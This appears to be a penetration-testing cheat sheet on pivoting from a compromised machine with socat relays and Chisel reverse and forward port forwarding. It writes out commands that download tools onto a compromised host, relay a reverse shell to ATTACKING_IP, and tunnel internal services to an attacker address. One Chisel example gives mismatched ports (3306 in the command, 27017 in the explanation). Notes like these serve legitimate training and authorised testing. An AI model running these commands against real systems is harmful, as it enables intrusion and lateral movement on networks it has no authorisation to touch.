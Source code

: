 #### Useful binaries 
https://github.com/andrew-d/static-binaries

#### Socat 
>If we have gain access to a machine then socat can encrypted create a relay on compromised machine and we can get a reverse shell on another machine and socat forwards to our machine.
>Can be used in both linux and windows systems.
>Can be used to create encrypted port forward and relays.
```
sudo python3 -m http.server 80
Download the binary in compromised host using curl/wget.
```

##### In local machine 
>nc -nvlp 7000

##### In Compromised Machine
>./socat tcp-l:8000 tcp:ATTACKING_IP:7000 &

#### Killing Socat Connections
```
jobs
kill PID
```

#### Chisel
> Uses SOCKS5 Proxy

##### Reverse Port Forwarding with Chisel
###### In attacking machine
```
chisel server --host 10.50.102.117  -p 1234 --reverse

    server: run the server mode
    -p : port for the server to listen on
    --reverse: allows reverse port forwarding
```
###### In Compromised Machine

```
chisel client 10.50.102.117:1234 R:2222:127.0.0.1:3306/tcp

    client : run the client mode
    10.50.102.117:1234 : the IP address of the attacker’s machine and the port that was specified in the chisel server command
    R:2222:127.0.0.1:27017/tcp: the R means we want to perform a reverse port forward; 2222 is the port number we want to use to route traffic through on the attacker’s machine; 127.0.0.1:27017 is the IP address/port we want to route our traffic to on the client’s machine; /tcp means we want to use the TCP protocol.
```
>The previous commands will allow us to access the service running locally on the remote machine on port 2222 on the attacking machine.

##### Forward Port Forwarding with Chisel 

###### In Compromised Host
```
./chisel server -p LISTEN_PORT --socks5
```

###### In Attacking Box

```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```
